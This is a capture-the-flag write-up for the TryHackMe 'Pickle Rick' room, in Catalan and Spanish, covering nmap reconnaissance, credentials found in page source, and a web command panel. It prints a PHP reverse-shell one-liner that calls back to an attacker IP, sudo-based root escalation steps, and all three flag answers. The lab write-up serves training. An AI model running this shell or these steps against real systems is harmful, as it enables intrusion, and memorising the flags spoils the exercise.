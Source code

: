 # Pickle Rick

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 15 de diciembre de 2024 18:59
IP: 10.10.21.47

# **Reconocimiento**

> NMAP INICIAL
> 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.21.47 -oG allports
```

![image.png](<imagenes/image 12.png>)

> NMAP Servicios
> 

```bash
 nmap -sV -script=http-enum 10.10.21.47 -vvv -oN targeted
```

![image.png](<imagenes/image 13.png>)

# Análisis de vulnerabilidades

Código fuente

![image.png](<imagenes/image 14.png>)

Username : R1ckRul3s

Accedirm a /robots.txt

![image.png](<imagenes/image 15.png>)

Accedim a /login.php i provem les credencials

![image.png](<imagenes/image 16.png>)

Llistem arxius i trobem :

**Sup3rS3cretPickl3Ingred.txt**

Si provem a obrirlo amb "CAT" ens diu que no podem executar aquest comando. Provem amb less i amb more:

> Flag 1r ingredient :	**mr. meeseek hair**
> 

# Explotación de vulnerabilidades

Intentem conectarnos amb una rever shell i la que ens funciona es una PHPexec:

```bash
php -r '$sock=fsockopen("10.9.4.64",443);exec("bash <&3 >&3 2>&3");'
```

![image.png](<imagenes/image 17.png>)

Accedim al sistema :

Busquem diferents fichers:

![image.png](<imagenes/image 18.png>)

Entrem al home de rick i trobem el segon flag

> Flag 2n ingredient: **1 jerry tear**
> 

# Escalada de privilegios

Busquem com ens podem convertir en root:

```bash
sudo -l
```

![image.png](<imagenes/image 19.png>)

Podem executar qualsevol comando sense password

```bash
sudo /bin/bash
```

Busquem al directori root la ultima flag:

> Flag 3: **fleeb juice**
>